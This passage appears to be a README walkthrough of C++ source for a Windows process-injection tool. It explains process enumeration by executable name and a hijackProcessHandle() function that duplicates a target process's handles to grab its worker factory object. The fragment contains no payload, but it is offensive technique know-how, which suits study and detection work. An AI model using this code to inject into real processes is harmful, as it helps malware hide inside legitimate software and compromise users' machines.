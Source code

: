 - Iterate over the linked list comparing if the current process entry matches the **exeName** parameter and saving it if true. The loop ends when there are no more entries... And the final vector is returned.
```cpp
    do {
        if (!wcscmp(entry.szExeFile, exeName)) {
            result.push_back(entry.th32ProcessID);
        }
    } while ( val(info(NO_CHECK,"17"),   Process32Next, hSnapshot, &entry));

    return result;
}
```

# hijackProcessHandle():
### Parameters:
- **wstring wsObjectType** : A wstring containing the object type we want to hijack.
- **HANDLE hTarget** : The handle to the target process.
- **DWORD dwDesiredAccess** : The desired access macro defined in Windows API (We only use **WORKER_FACTORY_ALL_ACCESS**).
### Return:
- **HANDLE** : The handle to the hijacked process object.
### Algorithm:
- Get the target process information object in raw using [queryInfo()](#queryinfo) and the **NtQueryInformationProcess** as a callback to retrieve that object. Save the result in a vector of BYTEs called **pProcessInfo**.
- Then cast the address of the **pProcessInfo** vector to **PPROCESS_HANDLE_SNAPSHOT_INFORMATION** to access this undocumented structure.
```cpp
HANDLE hijackProcessHandle(wstring wsObjectType, HANDLE hTarget, DWORD dwDesiredAccess) {
    vector<BYTE> pProcessInfo = valTemp(info(NO_CHECK,"2.5"),   queryInfo, hTarget, NtQueryInformationProcess, ProcessHandleInformation);
    const auto pProcessHandleInfo = valExp(info(CHECK_BAD_PTR,"3"),   (PPROCESS_HANDLE_SNAPSHOT_INFORMATION)(pProcessInfo.data()));
```
- Loop through all the handlers in **pProcessHandleInfo**, lets disect this code into small parts.
```cpp
    for (auto i = 0; i < pProcessHandleInfo->NumberOfHandles; i++) {
        HANDLE hDuplicatedObj;
        val(info(CHECK_FALSE_NULL,"2"),   DuplicateHandle, hTarget, pProcessHandleInfo->Handles[i].HandleValue, GetCurrentProcess(), &hDuplicatedObj, dwDesiredAccess, FALSE, 0);

        vector<BYTE> pObjectInfo = valTemp(info(NO_CHECK,"7"),   queryInfo, hDuplicatedObj, NtQueryObject, ObjectTypeInformation);
        auto pObjectTypeInfo = valExp(info(CHECK_BAD_PTR,"7.5"),   (PPUBLIC_OBJECT_TYPE_INFORMATION)(pObjectInfo.data()));

        if (wsObjectType != wstring(pObjectTypeInfo->TypeName.Buffer)) {
            continue;
        }

        wcout << "\npObjectTypeInfo: " << wstring(pObjectTypeInfo->TypeName.Buffer);
        return hDuplicatedObj;
    }
```
- We are only duplicating the current handler with **DuplicateHandle()**.
```cpp
    for (auto i = 0; i < pProcessHandleInfo->NumberOfHandles; i++) {
        HANDLE hDuplicatedObj;
        val(info(CHECK_FALSE_NULL,"2"),   DuplicateHandle, hTarget, pProcessHandleInfo->Handles[i].HandleValue, GetCurrentProcess(), &hDuplicatedObj, dwDesiredAccess, FALSE, 0);

```